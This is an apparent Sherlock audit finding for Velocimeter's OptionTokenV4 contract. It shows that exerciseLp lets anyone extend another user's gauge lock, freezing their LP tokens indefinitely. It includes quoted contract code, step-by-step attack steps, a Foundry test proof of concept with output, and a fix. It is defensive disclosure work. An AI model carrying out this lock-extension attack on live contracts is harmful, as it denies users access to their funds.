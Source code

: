 Polite Butter Gazelle

High

# Attacker can permanently lock users' tokens by calling `OptionTokenV4::exerciseLp` on their behalf

## Summary

Users can lock their LP tokens into gauges to incentivize votes, which can allow them to receive `oTokens` as rewards. Users can withdraw their tokens once their respective `lock time` has passed.

If users choose to deposit again, they have the ability to extend their `lock time`. The problem is that an attacker can deposit on a user's behalf via `OptionTokenV4::exerciseLp` and permanently extend their lock time, forever locking the innocent user's LP tokens and forbidding them from withdrawing.

## Vulnerability Detail

There are two ways for users to lock their LP tokens into gauges for a specific `lock duration`.

The first way is to directly call `Gauge4::depositWithLock` on the gauge. Only the account owner or the `oToken` contract can call this function.

[GaugeV4.sol#L443-L459](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L443-L459)
```javascript
    function depositWithLock(address account, uint256 amount, uint256 _lockDuration) external lock {
        require(msg.sender == account || isOToken[msg.sender],"Not allowed to deposit with lock"); 
        _deposit(account, amount, 0);

        if(block.timestamp >= lockEnd[account]) { // if the current lock is expired relased the tokens from that lock before loking again
            delete lockEnd[account];
            delete balanceWithLock[account];
        }

        balanceWithLock[account] += amount;
        uint256 currentLockEnd = lockEnd[account];
        uint256 newLockEnd = block.timestamp + _lockDuration ;
        if (currentLockEnd > newLockEnd) {
            revert("The current lock end > new lock end");
        } 
        lockEnd[account] = newLockEnd;
    }
```

The second way is by utilizing their `oTokens` (options tokens) by exercising them via `OptionTokenV4::exerciseLp` to earn LP tokens at a discount which are immediately locked:

[OptionTokenV4.sol#L700-L704](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L700-L704)
```javascript
    IGaugeV4(_gauge).depositWithLock(
        _recipient,
        lpAmount,
        getLockDurationForLpDiscount(_discount)
    );
```

However, the difference with these two methods is that `OptionTokenV4::exerciseLp` doesn't check if the specified recipient is the caller, allowing anyone to lock tokens on behalf of another user.

Let's take a closer look at `Gauge4::depositWithLock`:

```javascript
    if(block.timestamp >= lockEnd[account]) { // if the current lock is expired relased the tokens from that lock before loking again
        delete lockEnd[account];
        delete balanceWithLock[account];
    }

    balanceWithLock[account] += amount;
    uint256 currentLockEnd = lockEnd[account];
    uint256 newLockEnd = block.timestamp + _lockDuration ; //@audit lock is extended
    if (currentLockEnd > newLockEnd) {
        revert("The current lock end > new lock end");
    } 
    lockEnd[account] = newLockEnd;
```

Consider a case where the user has already deposited to lock their tokens and they decide to deposit again.

The first `if` statement checks if the `lock duration` has passed. If true, then the lock mappings are reset and updated to a new duration for the new locked amount. The previously locked tokens can then be withdrawn via `GaugeV4::withdrawToken`:

[GaugeV4.sol#L513-L530)](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L513-L530)
```javascript
    function withdrawToken(uint amount, uint tokenId) public lock {
        _updateRewardForAllTokens();

        uint256 totalBalance = balanceOf[msg.sender];
        uint256 lockedAmount = balanceWithLock[msg.sender];
        uint256 freeAmount = totalBalance - lockedAmount;
        // Update lock related mappings when withdraw amount greater than free amount
        if (amount > freeAmount) {
            // Check if lock has expired
            require(block.timestamp >= lockEnd[msg.sender], "The lock didn't expire");
            uint256 newLockedAmount = totalBalance - amount;
            if (newLockedAmount == 0) {
                delete lockEnd[msg.sender];
                delete balanceWithLock[msg.sender];
            } else {
                balanceWithLock[msg.sender] = newLockedAmount;
            }
        }
        ...
```

However, if the lock time has *not* passed, it is updated to the `newLockEnd` duration, which is `block.timestamp + _lockDuration` in the future. An attacker can exploit this the following way:

1. Alice locks 1e18 LP tokens for 1 week
2. Attacker backruns and calls `OptionTokenV4::exerciseLp` by specifying Alice's address as the recipient
3. Alice's lock period is now extended by 52 weeks
4. After one week, Alice attempts to withdraw but her call reverts unexpectedly.

In this case, Alice's tokens are locked for 52 weeks. After 51 weeks has passed, the attacker can repeat the call to extend for another 52 weeks, indefinitely locking her tokens. It's important to note that this can only be done by the attacker by locking on her behalf *before* her lock period ends, because that way it will extend her lock period rather than create a new lock period.

## Proof of Concept

<details>
<summary>Coded PoC</summary>
<br>

Add the following to `test/OptionTokenV4.t.sol` and run `forge test --mt testGaugeWithdrawBlocked -vv`

```javascript
    function testGaugeWithdrawBlocked() public {
        vm.startPrank(address(owner)); // address of Alice
        FLOW.approve(address(oFlowV4), TOKEN_1);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_1); // address of attacker
        washTrades();
        flowDaiPair.approve(address(gauge),TOKEN_1);

        uint256 lpBalanceBefore = flowDaiPair.balanceOf(address(owner));
        gauge.depositWithLock(address(owner), TOKEN_1, 7 * 86400); // Alice deposits for 1 week
        uint256 startLockDuration = 7 * 86400 / 86400 / 7;
        console.log("Number of weeks for Alice's lock duration: ", startLockDuration);
        vm.stopPrank();

      
        vm.startPrank(address(owner2)); // attacker backruns and deposits with lock on behalf of user
        DAI.approve(address(oFlowV4), TOKEN_100K);
        (uint256 paymentAmount, ) = oFlowV4.exerciseLp(TOKEN_1, TOKEN_1, address(owner),20,block.timestamp);
        vm.stopPrank();

        uint256 newLockDuration = oFlowV4.getLockDurationForLpDiscount(20) / 86400 / 7;

        console.log("Number of weeks Alice's lock duration is extended by the attacker: ", newLockDuration);

        vm.warp(block.timestamp + 7 * 86400 + 1); // more than 1 week has passed

        vm.startPrank(address(owner));
        vm.expectRevert("The lock didn't expire");
        gauge.withdraw(TOKEN_1);
        vm.stopPrank();
    }
```
</details>

### Console Output

```text
Running 1 test for test/OptionTokenV4.t.sol:OptionTokenV4Test
[PASS] testGaugeWithdrawBlocked() (gas: 3446568)
Logs:
  Number of weeks for Alice's lock duration:  1
  Number of weeks Alice's lock duration is extended by the attacker:  52

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 16.74ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

We can see from this test that despite Alice's initial lock duration set to 1 week, she still wasn't able to withdraw after 1 week had passed due to her lock not expiring. This is because the attacker had extended it by 52 weeks.

## Impact

Loss of funds for users, permanently locked tokens, denial of service.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L443-L459

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L700-L704

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L513-L530

## Tool used

Manual Review

## Recommendation

`GaugeV4::depositWithLock` does not allow the caller to deposit on behalf of other users. Consider incorporating the same mechanism for `OptionTokenV4::exerciseLp`:

```diff
    function exerciseLp(
        uint256 _amount,
        uint256 _maxPaymentAmount,
        address _recipient,
        uint256 _discount,
        uint256 _deadline
    ) external returns (uint256, uint256) {
+       require(_recipient == msg.sender);      
        if (block.timestamp > _deadline) revert OptionToken_PastDeadline();
        return _exerciseLp(_amount, _maxPaymentAmount, _recipient, _discount);
    }
```